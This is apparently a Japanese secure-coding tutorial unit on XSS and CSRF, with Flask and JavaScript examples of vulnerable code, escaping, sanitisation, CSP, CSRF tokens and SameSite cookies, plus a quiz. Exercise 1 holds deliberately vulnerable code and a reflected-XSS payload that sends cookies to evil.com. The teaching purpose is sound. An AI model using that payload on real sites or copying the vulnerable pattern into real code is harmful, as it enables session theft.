

# Phase 2-2: XSS と CSRF

## 学習目標

この単元を終えると、以下ができるようになります：

- XSS（クロスサイトスクリプティング）を理解し防御できる
- CSRF（クロスサイトリクエストフォージェリ）を防止できる
- 適切なエスケープ処理を実装できる

## XSS（クロスサイトスクリプティング）



### XSS の種類

| 種類 | 説明 |
|------|------|
| **Stored** | DBに保存されて他のユーザーに影響 |
| **Reflected** | URLパラメータがそのまま表示 |
| **DOM-based** | クライアントサイドでDOM操作 |

## ハンズオン

### 演習1: XSS の脆弱なコード

```python
# xss_vulnerable.py
"""
⚠️ XSS脆弱コード例
"""

from flask import Flask, request, render_template_string

app = Flask(__name__)

# ❌ 脆弱: ユーザー入力をそのまま表示
@app.route('/search')
def vulnerable_search():
    query = request.args.get('q', '')
    
    # ❌ 危険: エスケープなし
    return f'''
    <html>
        <body>
            <h1>検索結果: {query}</h1>
        </body>
    </html>
    '''

# 攻撃例:
# /search?q=<script>document.location='http://evil.com/?c='+document.cookie</script>

# ❌ 脆弱: innerHTML 使用（JavaScript）
VULNERABLE_JS = '''
// ❌ 危険
document.getElementById('content').innerHTML = userInput;

// ❌ 危険
element.setAttribute('onclick', userInput);

// ❌ 危険
eval(userInput);
'''
```

### 演習2: XSS 対策

```python
# xss_prevention.py
"""
✅ XSS対策
"""

from flask import Flask, request, render_template
from markupsafe import Markup, escape
import bleach

app = Flask(__name__)

# ✅ 安全: テンプレートエンジンの自動エスケープ
@app.route('/search')
def safe_search():
    query = request.args.get('q', '')
    # Jinja2 は自動的にエスケープ
    return render_template('search.html', query=query)

# ✅ 手動エスケープ
def safe_output(user_input: str) -> str:
    return escape(user_input)

# ✅ HTMLサニタイズ（リッチテキストを許可する場合）
def sanitize_html(html: str) -> str:
    """
    許可されたタグのみを残す
    """
    allowed_tags = ['p', 'b', 'i', 'u', 'a', 'ul', 'ol', 'li', 'br']
    allowed_attrs = {'a': ['href', 'title']}
    
    return bleach.clean(
        html,
        tags=allowed_tags,
        attributes=allowed_attrs,
        strip=True
    )

# ✅ 安全なJavaScript
SAFE_JS = '''
// ✅ textContent を使用（HTMLとして解釈されない）
document.getElementById('content').textContent = userInput;

// ✅ setAttribute の代わりに直接プロパティ設定
element.href = sanitizedUrl;

// ✅ イベントリスナーを使用
element.addEventListener('click', function() {
    // 信頼できるコード
});
'''

# ✅ Content-Security-Policy ヘッダー
@app.after_request
def add_csp(response):
    response.headers['Content-Security-Policy'] = (
        "default-src 'self'; "
        "script-src 'self'; "
        "style-src 'self' 'unsafe-inline'; "
        "img-src 'self' data: https:; "
        "object-src 'none'"
    )
    return response
```

### 演習3: CSRF 対策

```python
# csrf_prevention.py
"""
CSRF対策
"""

from flask import Flask, request, session, abort
from flask_wtf.csrf import CSRFProtect
import secrets

app = Flask(__name__)
app.secret_key = secrets.token_hex(32)

# ✅ Flask-WTF による CSRF 保護
csrf = CSRFProtect(app)

# ✅ 手動実装の場合
class CSRFProtection:
    @staticmethod
    def generate_token() -> str:
        """CSRFトークン生成"""
        if 'csrf_token' not in session:
            session['csrf_token'] = secrets.token_urlsafe(32)
        return session['csrf_token']
    
    @staticmethod
    def validate_token(token: str) -> bool:
        """CSRFトークン検証"""
        return secrets.compare_digest(
            token,
            session.get('csrf_token', '')
        )

# ミドルウェア
@app.before_request
def csrf_protect():
    if request.method in ['POST', 'PUT', 'DELETE']:
        token = request.form.get('csrf_token') or request.headers.get('X-CSRF-Token')
        
        if not token or not CSRFProtection.validate_token(token):
            abort(403, 'CSRF token validation failed')

# テンプレート
HTML_TEMPLATE = '''
<form method="POST" action="/transfer">
    <input type="hidden" name="csrf_token" value="{{ csrf_token }}">
    <input type="text" name="amount">
    <button type="submit">送金</button>
</form>
'''

# ✅ SameSite Cookie
@app.after_request
def set_cookie_flags(response):
    # SameSite=Strict: 同一サイトからのみCookie送信
    # SameSite=Lax: GETは許可（デフォルト）
    response.set_cookie(
        'session',
        session.sid,
        httponly=True,
        secure=True,
        samesite='Strict'
    )
    return response
```

### 演習4: JavaScript での XSS 対策

```javascript
// xss_prevention.js
/**
 * ✅ XSS対策（JavaScript）
 */

// ✅ DOMPurify を使用したサニタイズ
import DOMPurify from 'dompurify';

function renderUserContent(html) {
    const clean = DOMPurify.sanitize(html, {
        ALLOWED_TAGS: ['b', 'i', 'em', 'strong', 'a'],
        ALLOWED_ATTR: ['href']
    });
    document.getElementById('content').innerHTML = clean;
}

// ✅ URL の検証
function isValidUrl(url) {
    try {
        const parsed = new URL(url);
        return ['http:', 'https:'].includes(parsed.protocol);
    } catch {
        return false;
    }
}

// ✅ 安全なリンク作成
function createSafeLink(url, text) {
    if (!isValidUrl(url)) {
        throw new Error('Invalid URL');
    }
    
    const a = document.createElement('a');
    a.href = url;
    a.textContent = text;  // innerHTML ではなく textContent
    a.rel = 'noopener noreferrer';  // target="_blank" の場合
    
    return a;
}

// ✅ JSON の安全な埋め込み
function embedJsonSafely(data) {
    const json = JSON.stringify(data)
        .replace(/</g, '\\u003c')
        .replace(/>/g, '\\u003e')
        .replace(/&/g, '\\u0026');
    
    return `<script>const data = ${json};</script>`;
}
```

## 攻撃対策まとめ

| 攻撃 | 対策 |
|------|------|
| XSS Stored | 出力時エスケープ、CSP |
| XSS Reflected | 入力検証、エスケープ |
| XSS DOM | textContent使用、DOMPurify |
| CSRF | トークン、SameSite Cookie |

## 理解度確認

### 問題

CSRF 攻撃を防ぐ最も効果的な対策は何か。

**A.** 入力値のエスケープ

**B.** CSRF トークン + SameSite Cookie

**C.** HTTPS の使用

**D.** パスワードの強化

---

### 解答・解説

**正解: B**

CSRF トークンはフォームに埋め込まれた一意の値で、攻撃者はこの値を知ることができません。SameSite Cookie は異なるサイトからのリクエストに Cookie を送信しません。両方を組み合わせることで効果的に防御できます。

---

## 次のステップ

XSS と CSRF を学びました。次は暗号化とハッシュを学びましょう。

**次の単元**: [Phase 3-1: 暗号化とハッシュ](../phase3/01_暗号化とハッシュ.md)
